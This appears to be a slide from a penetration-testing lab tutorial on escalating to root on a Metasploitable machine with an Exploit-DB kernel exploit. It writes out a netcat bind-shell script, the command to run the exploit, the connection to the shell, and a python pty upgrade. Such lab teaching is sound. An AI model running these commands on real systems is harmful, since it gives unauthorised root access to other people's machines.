

# Kernel Exploit using Exploit-DB
nano run and add below lines in the file
#!/bin/bash
nc -lvvp 2345 -e /bin/bash
Go back to to home path and run the exploit with the PID
./exploit your_PID_number
Open a new tab and connect to the binded shell with Metasploit
nc -vn metasploitable_ip_address 2345 (the port number you put in the run file)
python -c "import pty;pty.spawn('/bin/bash’)”
Try whoami to see if you got the root access, (you can see it in the terminal but still)